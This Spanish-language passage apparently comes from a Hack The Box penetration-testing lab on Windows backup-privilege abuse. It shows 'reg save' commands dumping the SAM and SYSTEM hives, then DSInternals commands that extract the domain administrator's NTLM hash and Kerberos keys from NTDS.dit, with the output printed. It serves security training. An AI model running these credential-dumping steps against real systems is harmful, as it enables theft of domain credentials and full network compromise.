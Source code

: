 El privilegio también nos permite respaldar las colmenas del registro SAM y SYSTEM, de las cuales podemos extraer las credenciales de cuentas locales sin conexión utilizando una herramienta como `secretsdump.py` de Impacket.

```r
C:\htb> reg save HKLM\SYSTEM SYSTEM.SAV

The operation completed successfully.


C:\htb> reg save HKLM\SAM SAM.SAV

The operation completed successfully.
```

Vale la pena señalar que si una carpeta o archivo tiene una entrada de denegación explícita para nuestro usuario actual o un grupo al que pertenecen, esto nos impedirá acceder a él, incluso si se especifica el flag `FILE_FLAG_BACKUP_SEMANTICS`.

### Extracting Credentials from NTDS.dit

Con el NTDS.dit extraído, podemos usar una herramienta como `secretsdump.py` o el módulo de PowerShell `DSInternals` para extraer todas las credenciales de cuenta de Active Directory. Obtengamos el hash NTLM solo para la cuenta `administrator` del dominio usando `DSInternals`.

```r
PS C:\htb> Import-Module .\DSInternals.psd1
PS C:\htb> $key = Get-BootKey -SystemHivePath .\SYSTEM
PS C:\htb> Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key

DistinguishedName: CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
Sid: S-1-5-21-669053619-2741956077-1013132368-500
Guid: f28ab72b-9b16-4b52-9f63-ef4ea96de215
SamAccountName: Administrator
SamAccountType: User
UserPrincipalName:
PrimaryGroupId: 513
SidHistory:
Enabled: True
UserAccountControl: NormalAccount, PasswordNeverExpires
AdminCount: True
Deleted: False
LastLogonDate: 5/6/2021 5:40:30 PM
DisplayName:
GivenName:
Surname:
Description: Built-in account for administering the computer/domain
ServicePrincipalName:
SecurityDescriptor: DiscretionaryAclPresent, SystemAclPresent, DiscretionaryAclAutoInherited, SystemAclAutoInherited,
DiscretionaryAclProtected, SelfRelative
Owner: S-1-5-21-669053619-2741956077-1013132368-512
Secrets
  NTHash: cf3a5525ee9414229e66279623ed5c58
  LMHash:
  NTHashHistory:
  LMHashHistory:
  SupplementalCredentials:
    ClearText:
    NTLMStrongHash: 7790d8406b55c380f98b92bb2fdc63a7
    Kerberos:
      Credentials:
        DES_CBC_MD5
          Key: d60dfbbf20548938
      OldCredentials:
```